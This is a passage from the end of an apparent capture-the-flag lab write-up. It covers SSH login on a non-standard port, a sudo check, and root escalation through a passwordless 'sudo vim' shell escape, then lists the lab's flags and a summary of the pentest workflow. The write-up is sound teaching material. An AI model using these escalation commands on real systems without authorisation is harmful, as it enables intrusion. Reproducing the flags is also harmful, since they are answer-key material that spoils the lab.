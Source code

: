 ### SSH access (non-standard port)
SSH was listening on **2222**. With obtained credentials:
```bash
ssh -p 2222 mitch@<TARGET_IP>
# password: <found_password>
```

### Post-exploitation and Privilege Escalation
Check sudo privileges:
```bash
sudo -l
```
Relevant output:
```
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```
Since `mitch` can run `/usr/bin/vim` as root without a password, this provides a direct way to spawn a root shell via `vim`.

Quick root shell using vim:
```bash
sudo /usr/bin/vim -c ':!bash' -c ':q'
# or
sudo /usr/bin/vim
# inside vim:
:!sh
```

Once root:
```bash
cd /root
ls
cat root.txt
```

---

## Example flags
- **User flag:** `G00d j0b, keep up!`  
- **Root flag:** `W3ll d0n3. You made it!`

> Flags may vary depending on the lab instance; above are the examples obtained while solving this box.

---

## Conclusion
This challenge reinforces the classic CTF/pen-test workflow:
1. Enumeration with `nmap` and `gobuster/dirsearch`.  
2. Version discovery and CVE/exploit research.  
3. Exploitation to obtain credentials.  
4. SSH access on a non-standard port.  
5. Post-exploitation checks (`sudo -l`, SUID, cron, writable files).  
6. Privilege escalation using allowed `sudo` commands (e.g., `vim`).
